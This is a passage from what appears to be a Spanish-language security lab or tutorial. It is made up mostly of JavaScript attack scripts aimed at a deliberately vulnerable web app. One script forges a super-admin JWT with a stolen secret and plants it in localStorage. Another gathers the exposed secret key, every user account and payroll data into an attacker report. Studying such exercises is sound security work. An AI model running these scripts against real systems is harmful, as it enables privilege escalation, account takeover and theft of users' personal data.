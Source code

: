 ```javascript
});
```

#### **Método 2: Forjado de JWT con Secret Robada**
```javascript
// Una vez obtenida la JWT secret, crear tokens falsos
const createMaliciousToken = (userData) => {
  // Usar la secret robada del sistema
  const stolenSecret = 'vulnerable-secret-key'; // Obtenida de getSystemInfo()
  
  // Crear token de super-admin
  const maliciousPayload = {
    id: 999,
    username: 'super_hacker',
    email: 'hacker@evil.com',
    role: 'admin',
    iat: Math.floor(Date.now() / 1000),
    exp: Math.floor(Date.now() / 1000) + (365 * 24 * 60 * 60) // 1 año
  };
  
  // Usar la función expuesta del sistema para crear token
  const fakeToken = api.createFakeToken(maliciousPayload);
  
  console.log("🚨 TOKEN FALSO CREADO:", fakeToken);
  
  // Reemplazar token actual
  localStorage.setItem('token', fakeToken);
  localStorage.setItem('user', JSON.stringify(maliciousPayload));
  
  console.log("✅ Token reemplazado. Recarga la página para usar credenciales falsas.");
  
  return fakeToken;
};

// Ejecutar después de obtener system info
createMaliciousToken();
```

#### **Método 3: Análisis Completo del Sistema**
```javascript
// Script para recopilar toda la información disponible
const fullSystemAnalysis = async () => {
  try {
    // 1. Obtener información del sistema
    const systemInfo = await api.getSystemInfo();
    
    // 2. Obtener lista completa de usuarios
    const allUsers = await api.getAllUsers();
    
    // 3. Compilar análisis completo
    const analysisReport = {
      timestamp: new Date().toISOString(),
      attacker: api.decodeCurrentToken(),
      system: {
        secret_exposed: systemInfo.secret_key,
        debug_enabled: systemInfo.debug_mode,
        backup_date: systemInfo.last_backup,
        admin_list: systemInfo.admin_users
      },
      users: {
        total: allUsers.length,
        admins: allUsers.filter(u => u.role === 'admin'),
        regular_users: allUsers.filter(u => u.role === 'user'),
        total_payroll: allUsers.reduce((sum, u) => sum + (u.profile?.salary || 0), 0),
```